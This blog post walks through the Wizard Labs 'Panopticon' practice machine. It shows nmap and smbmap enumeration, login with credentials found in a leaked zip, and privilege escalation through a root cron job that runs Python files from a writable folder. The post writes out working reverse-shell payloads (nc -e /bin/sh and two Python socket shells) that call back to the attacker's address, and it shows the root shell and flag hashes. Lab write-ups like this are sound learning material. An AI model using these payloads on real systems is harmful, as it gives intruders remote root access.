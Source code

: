 ```yaml
---
id: 636
title: 'Wizard Labs &#8211; Panopticon'
date: 2019-04-16T08:32:16+01:00
author: rowbot
layout: post
guid: http://offsecnewbie.com/?p=636
permalink: /2019/04/16/wizard-labs-panopticon/
image: /wp-content/uploads/2019/04/pano-192x250.png
categories:
  - Wizard Labs
---
```

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image.png?w=680" alt="" class="wp-image-637" srcset="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image.png?w=192 192w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image.png?resize=167%2C300 167w" sizes="(max-width: 192px) 100vw, 192px" data-recalc-dims="1" /><figcaption> <br /><a href="https://labs.wizard-security.net/">https://labs.wizard-security.net</a> </figcaption></figure>
</div>

I found getting the user on this box very easy, I think it took me < 10 minutes. Then after about another 10 minutes I roughly knew what I had to do to get root but for the guts of 3 hours couldn&#8217;t figure out why I wasn&#8217;t getting the cron job to execute my script! I figured it out in the end, I just had to take a step back and re-read the /var/mail/seer log. 

<hr class="wp-block-separator" />

Ran the following nmap scan: nmap -sC -sV -oA all -vv -p- 10.1.1.34. 

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-2.png?w=680" alt="" class="wp-image-640" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-2.png?w=956 956w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-2.png?resize=300%2C76 300w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-2.png?resize=768%2C195 768w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /></figure>
</div>

What stood out to me was port 80, maybe some interesting directories or a web app attack could be carried out. Port 139 and 445 was SAMBA- always interesting to see what I can access through open shares or vulnerable versions.

Port 80 revealed a website. I didn&#8217;t poke about the website as it looked quite flat, the only entry point was the contact form &#8211; that I could see. I was keen to move on to what I could see from the SAMBA share.

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-3.png?w=680" alt="" class="wp-image-643" srcset="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-3.png?w=899 899w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-3.png?resize=300%2C218 300w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-3.png?resize=768%2C558 768w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /></figure>
</div>

I ran smbmap to enumerate the SAMBA share and discover the Public share can be read. <https://guide.offsecnewbie.com/network-pen#smbmap>

<pre><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/panopticon </font></span><font color="#3465A4"></font> <font color="#4E9A06">smbmap</font> -H $ip
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.1.1.34...
[+] IP: 10.1.1.34:445	Name: panopticon.wl                                     
	Disk                                                  	Permissions
	----                                                  	-----------
	public                                            	READ ONLY
	IPC$                                              	NO ACCESS
</pre>

I discovered a zip file called old-site.zip.

<pre><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/panopticon </font></span><font color="#3465A4"></font> <font color="#4E9A06">smbmap</font> -R Public -H $ip <font color="#555753"><b>#Recursively list dirs, and files</b></font>
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.1.1.34...
[+] IP: 10.1.1.34:445	Name: panopticon.wl                                     
	Disk                                                  	Permissions
	----                                                  	-----------
	Public                                            	READ ONLY
	.\
	dr--r--r--                0 Sun Jun 17 16:17:11 2018	.
	dr--r--r--                0 Sat Feb 24 19:27:52 2018	..
	-r--r--r--           427943 Sat Feb 24 19:57:46 2018	old-site.zip
</pre>

I downloaded it. As you can see smbmap is a nice little tool. I prefer it to enum4linux &#8211; though enum4linux does a few different things.

<pre><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/panopticon </font></span><font color="#3465A4"></font> <font color="#4E9A06">smbmap</font> -R Public -H $ip -A old-site.zip -q <font color="#555753"><b>#downloads a file in quiet mode</b></font>
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.1.1.34...
[+] IP: 10.1.1.34:445	Name: panopticon.wl                                     
	Disk                                                  	Permissions
	----                                                  	-----------
	[+] Match found! Downloading: Public\.\old-site.zip
	Public                                            	READ ONLY
	[+] Starting search for files matching 'old-site.zip' on share Public.
	[+] Match found! Downloading: Public\old-site.zip
</pre>

I knew that I there would be a config file which I could get a password or user from. So I unzipped the file.<figure class="wp-block-image">

<img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-4.png?w=680" alt="" class="wp-image-661" srcset="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-4.png?w=598 598w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-4.png?resize=300%2C236 300w" sizes="(max-width: 598px) 100vw, 598px" data-recalc-dims="1" /> </figure> <figure class="wp-block-image"><img src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-5.png?w=680" alt="" class="wp-image-662" srcset="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-5.png?w=574 574w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-5.png?resize=300%2C43 300w" sizes="(max-width: 574px) 100vw, 574px" data-recalc-dims="1" /><figcaption>username and password captured.</figcaption></figure> 

I remembered that there was an ssh port open and tried to login with those creds.

<pre><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/panopticon </font></span><font color="#3465A4"></font> <font color="#4E9A06">ssh</font> seer@$ip                                                              
seer@10.1.1.34';s password: 
Linux Panopticon 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
&lt;mark>You have new mail.&lt;/mark>
Last login: Sun Dec  2 09:18:32 2018 from 10.253.1.0
<font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~</b></font>$ cat /home/seer/user.txt 
6d3934480b23c0ca3d164cf19fa11946
<font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~</b></font>$ 
</pre>

I noticed when I logged in that I received a message that I had new mail. I highlighted it above.  


I knew that mail for the user is located in /var/mail/seer in this instance.  
What does it contain, and who/what sent it? Most often the messages contain output of cron jobs, or a system security report by logwatch, or similar things. Time to read it!

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-6.png?w=680" alt="" class="wp-image-668" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-6.png?w=676 676w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-6.png?resize=237%2C300 237w" sizes="(max-width: 676px) 100vw, 676px" data-recalc-dims="1" /></figure>
</div>

The mail file was very big 

<pre><font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~</b></font>$ ls -la /var/mail/seer 
-rw-rw---- 1 seer mail 23172905 Dec  2 11:36 /var/mail/seer
</pre>

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-7.png?w=680" alt="" class="wp-image-671" srcset="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-7.png?w=498 498w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-7.png?resize=300%2C103 300w" sizes="(max-width: 498px) 100vw, 498px" data-recalc-dims="1" /><figcaption>I&#8217;m terrible at reading file sizes and working them out to something I can understand so I turn to Google</figcaption></figure>
</div>

I scrolled through and seen reference to a hidden bash script called .lol.sh

<pre class="wp-block-preformatted">Subject: Cron &lt;root@Panopticon&gt; bash /var/tmp/.lol.sh
</pre>

<pre><font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~/dev_departement</b></font>$ ls -la /var/tmp/.lol.sh 
-rwx------ 1 root root 125 Jun 27 14:38 <font color="#8AE234"><b>/var/tmp/.lol.sh</b></font>
You have new mail in /var/mail/seer
</pre>

In Seer&#8217;s home directory there was a folder called dev_departement (spelled incorrectly). Maybe the machine&#8217;s author is French?

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-8.png?w=680" alt="" class="wp-image-673" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-8.png?w=511 511w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-8.png?resize=300%2C211 300w" sizes="(max-width: 511px) 100vw, 511px" data-recalc-dims="1" /></figure>
</div> The bad spelling and grammar continues when I looked at dev.txt 🙂 

<pre><font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~/dev_departement</b></font>$ cat dev.txt 
Hello Seer !! You are the only script developper in this departement ... Like I said you , please drop here all your scripts maybe they can make my life easier :)

Brenda&
<font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~/dev_departement</b></font>$ 
</pre>

So to summarize what I&#8217;ve found. There looks to be a cronjob running which runs a hidden file called .lol.sh of which I am not able to read. There is a file telling me that any scripts I drop into the /home/seer/dev_departement folder will be run. 

This was where I was stuck for a few hours as I looked through the mail file and found a lot of references to a hidden file called .update.sh

<pre class="wp-block-preformatted">Subject: Cron &lt;root@Panopticon> /home/seer/.update.sh Subject: Cron &lt;root@Panopticon> /home/seer/.update.sh Subject: Cron &lt;root@Panopticon> /home/seer/.update.sh Subject: Cron &lt;root@Panopticon> /home/seer/.update.sh Subject: Cron &lt;root@Panopticon> /home/seer/.update.sh Subject: Cron &lt;root@Panopticon> /home/seer/.update.sh Subject: Cron &lt;root@Panopticon> /home/seer/.update.sh <br /><br />From: root@panopticon.panopticon (Cron Daemon) To: root@panopticon.panopticon Subject: Cron &lt;root@Panopticon> /home/seer/update.sh MIME-Version: 1.0 Content-Type: text/plain; charset=UTF-8 Content-Transfer-Encoding: 8bit X-Cron-Env: &lt;SHELL=/bin/sh> X-Cron-Env: &lt;HOME=/root> X-Cron-Env: &lt;PATH=/usr/bin:/bin> X-Cron-Env: &lt;LOGNAME=root> Message-Id: &lt;E1epgcw-0000CA-BA@Panopticon.Panopticon> Date: Sat, 24 Feb 2018 21:41:02 +0100 </pre>

I thought that 1) the script had to be hidden and called update.sh and 2) that the script had to be a bash file while also being saved in seer&#8217;s home directory rather than the dev one.

After creating a .sh file with 

<pre class="wp-block-preformatted">nc -e /bin/sh 10.253.0.255 443 </pre>

inside and starting a listener at my end, nothing was coming back. The script was not being run. I went back and forth moving the file to different locations, using different ports, getting the script to wget from my webserver to see if it was running it at all &#8211; nothing! Even confirming that the script was executable.

I reviewed the mail file again and seen this beauty &#8211; highlighted below

<pre>From: root@panopticon.panopticon (Cron Daemon)
To: root@panopticon.panopticon
Subject: Cron &lt;root@Panopticon&gt; &lt;mark> for f in /home/seer/dev_departement/*.py ; do  /usr/bin/python3 "$f" done &lt;/mark>
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: &lt;SHELL=/bin/sh&gt;
X-Cron-Env: &lt;HOME=/root&gt;
X-Cron-Env: &lt;PATH=/usr/bin:/bin&gt;
X-Cron-Env: &lt;LOGNAME=root&gt;
Message-Id: &lt;E1fY9gM-0000EM-02@Panopticon.Panopticon&gt;
Date: Wed, 27 Jun 2018 14:36:22 +0200
</pre>

The script had to be a python script.

I tried using the following script but it didnt work, probably because it needed to be python3

<pre class="wp-block-preformatted"><font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~/dev_departement</b></font>$ cat script.py 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.253.0.255",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
<font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~/dev_departement</b></font>$ 
</pre>

I created a different python script

<pre class="wp-block-preformatted"><font color="#34E2E2"><b>import</b></font> socket
<font color="#34E2E2"><b>import</b></font> subprocess
s=socket.socket()
s.connect((<font color="#8AE234"><b>"10.253.0.255"</b></font>,443))
<font color="#34E2E2"><b>while</b></font> True:
     proc = subprocess.Popen(s.recv(1024),  shell=True,stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     s.send(proc.stdout.read() + proc.stderr.read())
</pre>

<pre class="wp-block-preformatted"><font color="#8AE234"><b>seer@Panopticon</b></font>:<font color="#729FCF"><b>~/dev_departement</b></font>$ ls -la
total 16
drwxrwxrwx 2 root root 4096 Dec  2 13:14 <span style="background-color:#4E9A06"><font color="#3465A4">.</font></span>
drwxr-xr-x 7 seer seer 4096 Jun 27 14:17 <font color="#729FCF"><b>..</b></font>
-rw-r--r-- 1 root root  172 Jun 17 17:34 dev.txt
-rwxr-xr-x 1 seer seer  273 Dec  2 13:02 <font color="#8AE234"><b>script.py</b></font>
</pre>

Started a listener on my machine and got a connection back.

<pre class="wp-block-preformatted">⚡  ~/Desktop/panopticon  nc -lnvp 443  
listening on [any] 443 ...
connect to [10.253.0.255] from (UNKNOWN) [10.1.1.34] 33634
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
8b470f864495744fcd8c3dc7b370e889
</pre>

I wanted to see what was in the .lol.sh 

<pre class="wp-block-preformatted">cat /var/tmp/.lol.sh
cd /home/seer/dev_departement 
for f in *.py; do  # or wget-*.sh instead of *.sh
  python3 "$f"   || break # if needed 
done
</pre>

And there&#8217;s the code that ran the python script in.

So this was a nice easy box to start with and I&#8217;m looking forward to exploring the other boxes that wizard labs have.